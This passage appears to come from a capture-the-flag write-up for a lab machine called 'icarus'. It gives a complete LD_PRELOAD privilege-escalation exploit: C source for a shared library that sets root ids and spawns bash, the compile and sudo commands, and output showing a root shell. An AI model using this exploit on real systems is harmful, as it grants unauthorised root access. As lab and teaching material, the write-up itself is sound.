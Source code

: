 Let's go back to the machine. We can exploit the LD_PRELOAD public variable by preloading custom shared libraries that are being run instead of the libc library and so we can run commands as the root user.  
Using [***this***][1] article we can exploit the machine.

    icarus@icarus:/tmp$ cat exploit.c

    #include <stdio.h>
    #include <sys/types.h>
    #include <unistd.h>
    #include <stdlib.h>

    void _init()
    {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
    }

    icarus@icarus:/tmp$ gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
    icarus@icarus:/tmp$ sudo LD_PRELOAD=/tmp/exploit.so id
    root@icarus:/tmp# whoami
    root
    root@icarus:/tmp# id -a
    uid=0(root) gid=0(root) groups=0(root)
    root@icarus:/tmp# cat /root/root.txt
    RIPicarus

[1]: "https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/"